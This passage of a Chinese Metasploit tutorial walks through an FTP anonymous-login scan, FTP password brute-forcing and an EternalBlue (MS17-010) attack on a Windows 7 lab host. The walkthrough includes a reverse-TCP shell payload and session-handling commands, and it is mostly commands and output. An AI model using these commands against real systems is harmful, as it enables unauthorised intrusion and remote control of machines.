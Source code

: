 FTP 匿名登陆：

```shell
use auxiliary/scanner/ftp/anonymous   # 使用指定模块
	set rhosts 192.168.18.137  # 设置参数
	run # 执行
	# 执行成功后。使用 FTP 软件进行连接
```

FTP 暴力破解：

```shell
use auxiliary/scanner/ftp/ftp_login  # 设置指定模块
	set rhosts 192.168.18.137  # 设置参数
	set  USERPASS_FILE  /home/jlb/root_userpass.txt  # 设置密码文件
	run # 执行
```

## 七、实战

攻击流程：

### 1. 使用永恒之蓝攻击 win7

> 前提 开启 445 端口

命令：

```shell
search MS17-010  # 查询相关漏洞exp
use auxiliary/scanner/smb/smb_ms17_010    # 使用验证模块
    show options  # 展示指定模块的参数
    set rhosts 192.168.18.128  # 设置参数
    msf6 auxiliary(scanner/smb/smb_ms17_010) > run # 执行后返回的数据
        [+] 192.168.18.128:445    - Host is likely VULNERABLE to MS17-010! - Windows 7 Enterprise 7600
        [*] 192.168.18.128:445    - Scanned 1 of 1 hosts (100% complete)
        [*] Auxiliary module execution completed
back # 返回
use exploit/windows/smb/ms17_010_eternalblue  # 使用指定exp模块
	show options # 展示参数
	set rhosts 192.168.18.128 # 设置参数
	show targets  # 展示当前模块可以攻击的目标
	show payloads  # 展示 payloads  
	set payload payload/windows/x64/shell_reverse_tcp    # 设定要使用的 payload
		set lhost 192.168.18.143  # 设置 payload 的参数
	执行 exp：
    	第一种：
    		run # 执行 payload,当页面出现 WIN 后表示入侵成功
			chcp 65001      # 如果乱码执行此命令
		第二种：
			exploit -j  # 执行后将会话转入后台
			sessions   # 展示当前所有的会话
			sessions -i ID # 使用指定会话
			background # 返回，MSF 但是不会删除会话
			sessions -k ID  # 杀死命令窗口
```
